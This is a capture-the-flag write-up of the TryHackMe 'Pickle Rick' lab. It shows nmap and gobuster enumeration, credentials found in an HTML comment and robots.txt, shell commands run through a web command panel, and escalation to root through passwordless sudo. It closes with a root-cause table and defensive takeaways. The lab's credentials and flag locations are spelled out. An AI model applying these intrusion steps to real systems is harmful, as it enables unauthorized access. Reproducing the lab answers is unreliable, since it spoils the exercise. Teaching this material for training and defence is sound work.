



# TryHackMe: Pickle Rick — Writeup.

**Category:** Web Exploitation / Command Injection
**Difficulty:** Easy
**Skills Demonstrated:** Network Enumeration, Web Directory Bruteforcing, Source Code Analysis, Command Injection Exploitation, Linux Privilege Enumeration

---

## Objective

Rick has turned himself into a pickle and needs help retrieving three secret ingredients hidden across the target system to reverse the transformation. The goal is to gain remote code execution on the web server and escalate access to root.

---

## 1. Reconnaissance

Started with a full port and service scan using Nmap:

```bash
sudo nmap 10.113.156.3 -A -T5 -v -oN results
```

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80/tcp | HTTP | Apache httpd 2.4.41 (Ubuntu) |

The HTTP service returned an interesting page title: `Rick is sup4r cool` — a small detail worth noting for later.

---

## 2. Enumeration

### 2.1 Source Code Review

Viewing the page source (`view-source:http://10.113.156.3/`) revealed an HTML comment left in the code:

```html
<!--
Note to self, remember username!
Username: R1ckRul3s
-->
```

This gave up half the credentials needed for a potential login form.

### Web Enumeration


### 2.2 robots.txt

Checked the standard `robots.txt` file:

```
http://10.113.156.3/robots.txt
```

This returned a single string: `Wubbalubbadubdub` — a strong candidate for a password given the username already found.

### 2.3 Directory Bruteforcing

Ran Gobuster to enumerate hidden directories and files:

```bash
gobuster dir -u http://10.113.156.3/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

**Key findings:**

| Path | Status |
|------|--------|
| /assets | 301 |
| /login.php | 200 |
| /portal.php | 200 (redirect) |
| /denied.php | 302 |
| /robots.txt | 200 |
| /server-status | 403 |

`login.php` stood out immediately as the entry point to test the discovered credentials.

---

## 3. Exploitation

### 3.1 Authentication

Navigated to `/login.php` and authenticated using the credentials gathered during enumeration:

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`

Login was successful, redirecting to `portal.php`.

### 3.2 Command Injection via Command Panel

The portal exposed a "Command Panel" — a web-based interface that accepts and executes arbitrary shell commands, functioning as a de facto webshell.

Confirmed code execution with a simple test:

```
ls
```

This returned a listing of the current directory, confirming full command execution as the web service user (`www-data`).

### 3.3 Locating the First Ingredient

The directory listing revealed a file named `Sup3rS3cretPickl3Ingred.txt`. Read its contents:

```
less Sup3rS3cretPickl3Ingred.txt
```

✅ **First ingredient captured.**

### 3.4 Locating the Second Ingredient

Pivoted to enumerate user home directories:

```
ls -la /home
ls -la /home/rick
```

Found a file with a space in its name, requiring quotes to reference correctly:

```
ls -la "/home/rick/second ingredients"
less "/home/rick/second ingredients"
```



✅ **Second ingredient captured.**

### 3.5 Privilege Escalation to Root

Attempted to check for elevated access directly:

```
sudo ls -la /root
sudo less /root/3rd.txt
```

Both commands executed successfully **without a password prompt**, indicating the web-service user has sudo rights.

✅ **Third ingredient captured.**

### 3.6 Confirming the Misconfiguration

To formally document the root cause, checked the user's sudo permissions:

```
sudo -l
```

**Output confirmed:**

```
User www-data may run the following commands on ip-10-113-156-3:
    (ALL) NOPASSWD: ALL
```

This confirms the root cause of full compromise: the `www-data` service account was misconfigured with unrestricted, passwordless `sudo` access — turning a simple command injection vulnerability into full root-level system compromise.

### Privilege Escalation & Flags


---

## 4. Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| Credentials exposed in HTML comments and `robots.txt` | Enabled unauthorized login |
| No input sanitization on the Command Panel | Direct OS command injection (RCE) |
| `www-data` granted `NOPASSWD: ALL` sudo rights | Trivial privilege escalation from web shell to root |

---

## 5. Key Takeaways

- **Never trust client-facing files** (`robots.txt`, HTML source, comments) — they are often the first place credentials or hints leak.
- **Command injection in an admin panel is equivalent to a webshell** — any application feature that executes raw system commands must be treated as a critical vulnerability.
- **Sudo misconfigurations are a common and severe escalation vector** — granting `NOPASSWD: ALL` to a service account defeats the purpose of privilege separation entirely.
- Reinforced practical workflow: **recon → enumeration → exploitation → privilege escalation → root cause documentation**, a repeatable methodology applicable to real-world pentests.

---

*Room: [TryHackMe — Pickle Rick](https://tryhackme.com/room/picklerick)*
